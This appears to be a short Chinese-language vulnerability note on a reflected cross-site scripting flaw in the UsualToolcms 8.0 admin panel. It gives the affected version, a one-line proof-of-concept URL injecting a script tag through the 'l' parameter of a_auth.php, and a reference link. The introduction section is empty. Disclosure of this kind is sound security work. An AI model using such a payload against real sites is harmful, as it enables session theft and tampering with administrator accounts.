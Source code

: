 UsualToolcms 8.0 后台反射型XSS
==============================

一、漏洞简介
------------

二、漏洞影响
------------

UsualToolcms 8.0

三、复现过程
------------

![1.png](resource/UsualToolcms8.0后台反射型XSS/media/rId24.png)

### poc

    https://www.0-sec.org/cmsadmin/a_auth.php?do=update&l=%22%3C/script%3E%3Cscript%3Ealert(1)%3C/script%3E

![2.png](resource/UsualToolcms8.0后台反射型XSS/media/rId26.png)

参考链接
--------

> https://xz.aliyun.com/t/8100
